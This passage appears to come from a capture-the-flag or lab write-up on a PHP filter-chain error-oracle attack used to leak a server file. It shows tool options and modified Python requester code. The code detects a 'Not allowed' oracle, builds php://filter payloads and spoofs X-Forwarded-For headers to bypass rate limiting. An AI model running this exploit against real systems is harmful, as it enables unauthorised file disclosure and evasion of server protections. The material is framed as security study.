 ```shell
  --in_chain IN_CHAIN   Useful to bypass weak strpos configurations, adds the string in the chain. (ex : KEYWORD)
  --time_based_attack TIME_BASED_ATTACK
                        Exploits the oracle as a time base attack, can be improved. (ex : True)
  --delay DELAY         Set the delay in second between each request. (ex : 1, 0.1)
```

But! Before we fire up the script, let's take a step back.

**In a while ago, we found that the oracle is not HTTP status code 500, it's the "Not Allow" response output. So, we'll need to modify the script `core/requestor.py`'s function `error_oracle()`:**
```python
[...]
    def error_oracle(self, s):
        requ = self.req_with_response(s)
        if self.time_based_attack:
            return requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01)
        
        isSuccess = True if 'Not allowed' not in requ.text else False
        return isSuccess
        # return requ.status_code == 500
```

**Then, since we'll also need to bypass the rate limiting, and the page requires our PHP session cookie, let's modify function `req_with_response()`:**
```python
[...]
import random
import string
[...]
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)
        data = {
            self.parameter: f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        }
        merged_data = {key: value for (key, value) in (data.items() | self.data.items())}
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                # bypass rate limiting
                header = {
                    'Cookie': 'PHPSESSID=<YOUR_OWN_PHP_SESSION_COOKIE_VALUE>',
                    'X-Forwarded-For': ''.join(random.choice(string.ascii_lowercase) for i in range(10))
                }

                requ = self.session.post(self.target, data=merged_data, headers=header)
                return requ
        except requests.exceptions.ConnectionError :
            print("[-] Could not instantiate a connection")
            exit(1)
        return None
[...]
```
